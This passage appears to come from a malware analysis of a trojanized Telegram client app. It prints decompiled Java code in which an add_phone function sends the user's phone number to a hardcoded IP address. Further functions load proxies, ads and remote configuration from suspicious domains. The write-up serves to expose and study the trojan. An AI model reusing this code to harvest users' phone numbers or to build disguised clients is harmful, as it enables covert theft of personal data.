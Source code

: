After some investigation, I found the `add_phone` function.
```java
public static void add_phone() {
        if (ApplicationLoader.applicationContext.getSharedPreferences("AppLogger", 0).getBoolean(UserConfig.getInstance(UserConfig.selectedAccount).getClientPhone(), false)) {
            return;
        }
        send_request("http://185.208.172.29:8182/add_phone?number=xasfas&channel=qweqw".replace("xasfas", UserConfig.getInstance(UserConfig.selectedAccount).getClientPhone().replace(" ", BuildConfig.APP_CENTER_HASH)).replace("qweqw", "https://t.me/" + AppConfig.getAppMainChannel()));
    }
```
<br/>

# Where are the ads and proxies loaded?
This Trojan app has pre-imported proxies that you can use. This is probably done to make it easier for people to log in. Remember the `AppConfig.java` file? It contains a remote link for loading ads and proxies.
```java

    public static String getPicslink() {
        return ApplicationLoader.applicationContext.getSharedPreferences("app_Settings_new", 0).getString("picsLink2", "https://service.telogramofficial.com/telegram/prc/list.json?dl=1");
    }

    public static String getProxyLinkMahamad() {
        return ApplicationLoader.applicationContext.getSharedPreferences("app_Settings_new", 0).getString("ProxyLinkMohamad", "https://tlb7.xyz");
    }

    public static String getProxyLinkJafari() {
        return ApplicationLoader.applicationContext.getSharedPreferences("app_Settings_new", 0).getString("ProxyLinkJafari", "https://turbo.vizzy.cfd/pxs");
    }

    public static String getRemoteLink() {
        return ApplicationLoader.applicationContext.getSharedPreferences("app_Settings_new", 0).getString("remoteLink2", "https://turbo.vizzy.cfd/api/v1/application/asdcasdmobogram_n3sadxsdas");
    }
```
It’s clear which functions load the proxies, and the turbo.vizzy[.]cfd domain is where the ads are loaded. If you follow the white rabbit, you’ll find the turboads-smart[.]com domain, which owns the turbo.vizzy[.]cfd domain.
